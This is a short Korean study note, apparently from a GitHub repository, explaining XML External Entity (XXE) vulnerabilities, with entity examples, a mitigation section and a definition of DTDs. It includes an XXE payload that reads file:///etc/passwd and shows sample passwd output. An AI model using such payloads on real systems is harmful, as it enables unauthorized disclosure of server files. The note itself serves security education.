

# XXE
https://bibimnews.com/entry/XML-%EC%99%B8%EB%B6%80-%EA%B0%9C%EC%B2%B4XML-External-Entity-XXE-%EC%B7%A8%EC%95%BD%EC%A0%90-OWASP-Top-10-2017-A4

https://portswigger.net/web-security/xxe

<br>



<br>
XML eXternal Entity의 줄임말로 XML 타입의 데이터 요청을 전송할 때 XML Parser가 XML의 외부엔티티를 처리할 수 있게 설정되어 있는 경우 발생하는 취약점이다.
<br><br>
내부 엔티티는 문서 내에 값을 명시한다.
<br>

```xml
<!ENTITY A "aaa">
<!ENTITY B "bbb">

<user>&A;&B;</user>
```
<br>

외부 엔티티는 문서 외부의 URL 를 명시하여 값을 제공한다.
<br>

```xml
<!ENTITY A SYSTEM "https://www.~~~">
<!ENTITY B SYSTEM "https://www.~~~">

<user>&A;&B;</user>
```
<br>

이 외부 엔티티에서 참조하는 URL 상에 공격구문을 작성하는 것이다.
<br>

```xml
<!ENTITY A SYSTEM "file:///etc/passwd">

<user>&A;</user>
```

```xml
>>>
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
```

이처럼 LFI, RFI, Injection 등등 온갖 취약점이 발생될 우려가 있다. 기본적으로 필터링 및 보호기법이 없다는 가정 하에 그냥 쉘처럼 작동한다고 생각하면 된다.

<br>

## 대응방안
<br>
XML 문서는 외부 클라이언트와 통신할 수 있도록 만들어졌기 때문에 특정 개체만 불러오지 않도록 설정하는 것은 어렵다. 따라서 XML파서는 시스템 내부의 DTD만을 참조하도록 하고 XML내부에 선언된 DTD는 허용하지 않도록 설정해야 한다. 즉 신뢰할 수 없는 외부의 DTD는 허용하지 않고 안전하게 구성된 내부의 DTD만을 사용해야 한다. 신뢰할 수 있는 내부 DTD의 엔티티를 통해 참조할 외부 개체를 제한하는 것이다.

<br><br><br>

<p5> **DTD란?** Document Type Definition 또는 문서 타입 정의라 불리며 XML 문서의 구조 및 해당 문서에서 사용할 수 있는 적법한 요소와 속성을 정의한다. 
DTD는 엔티티를 정의할 수 있으며, 빠른 개발을 위한 내부 DTD를 사용할 수 있다.
DTD는 예전부터 사용해 온 구식 방법이지만, 특유의 장점을 바탕으로 아직도 널리 사용되고 있다.
이러한 DTD는 XML 문서 내부에 명시할 수도 있으며, 별도의 파일로 분리할 수도 있다.
